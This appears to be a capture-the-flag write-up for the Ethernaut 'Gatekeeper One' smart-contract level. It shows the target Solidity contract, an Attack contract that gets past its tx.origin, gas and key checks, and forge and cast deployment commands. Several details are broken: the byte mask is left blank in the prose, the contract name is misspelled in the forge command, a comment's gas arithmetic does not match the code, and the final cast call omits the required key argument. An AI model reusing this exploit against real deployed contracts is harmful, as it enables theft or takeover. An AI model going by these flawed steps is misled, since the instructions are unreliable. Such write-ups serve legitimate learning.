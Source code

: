 ## Gatekeeper One Level Outline

**Difficulty : 5/10**

Make it past the gatekeeper and register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the remaining gas needs to be divisible by 8191. To satisfy this, we will use [foundry's debugger](https://book.getfoundry.sh/forge/debugger.html?highlight=debugger#debugger) to find the right gas amount in order to pass the check.

To pass the third modifier `gateThree()`, we need to byte mask our address with `` to pass all three checks.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    GateKeeperOne gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = GateKeeperOne(_gateKeeper);
    }

    // 0x8208b86dA007aa26 (last 4 bytes of addr)
    // 7747 (gas used found from debugger) + 57337 (8191 * 7)
    function enter(bytes8 addr) public {
        bytes8 key = addr & 0xFFFFFFFF0000FFFF;
        gateKeeper.enter{gas: 7747}(key);
    }
}

interface GateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}
```

##### 2. 

```console
forge create src/Contract.sol:Attacl --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract


---

##### [:arrow_left: Back To Main Menu](../README.md)
